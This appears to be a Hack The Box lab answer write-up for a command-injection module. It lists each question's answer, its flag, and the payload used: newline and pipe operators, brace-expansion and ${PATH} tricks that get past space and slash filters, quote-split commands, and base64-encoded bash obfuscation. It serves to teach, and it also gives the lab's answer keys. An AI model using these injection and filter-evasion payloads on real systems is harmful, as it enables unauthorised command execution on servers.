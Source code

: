 # Detection
1. Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?
 
 Answer: Please match the requested format

# Injection Commands
1. Review the HTML source code of the page to find where the front-end input validation is happening. On which line number is it?

Answer: 17

Explanation: view-source:http://{IP}

17 <input type="text" name="ip" placeholder="127.0.0.1" pattern="^((\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])$"

# Other Injection Operators

1. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?

Answer: | 
(pipe)

Explanation: ip=127.0.0.1|whoami (ip is the parameter in the request)

# Identifying Filters

1. Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?

Answer: new-line

Explanation: ip=127.0.0.1%0a (%0a URL encoded of '\n') gives the IP ping response

# Bypassing Space Filters

1. Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?

Answer: 1613

Explanation: ip=127.0.0.1%0a{ls,-la} - bypass by using brace expansion

# Bypassing Other Blaclisted Characters

1.  Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?

Answer: 1nj3c70r

Explanation: Bypass the slash by using the next payload: ip=127.0.0.1%0a{ls,-la,..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}home}

# Bypassing Blacklisted Commands

1. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.

Answer: HTB{b451c_f1l73r5_w0n7_570p_m3}

Explanation: Bypass the blacklisted command 'cat' by using even umber of quotes or double-quotes. The payload: ip=127.0.0.1%0a{c"at",..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}

# Advanced Command Obfuscation

1. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1

Answer: /usr/share/mysql/debian_create_root_user.sql

Explanation: Payload: 127.0.0.1%0ab'a'sh<<<$(ba'se6'4${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)

$ echo 'ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=' | base64 --decode find /usr/share/ | grep root | grep mysql | tail -n 1

# Skill Assessment 

Note: Authenticate to 94.237.59.180:56298 with user "guest" and password "guest"

1. What is the content of '/flag.txt'?

Answer: HTB{c0mm4nd3r_1nj3c70r}

Explanation: 1. Login 2. move function 3. /index.php?to=%0abash<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)

Decoder: cat /flag.txt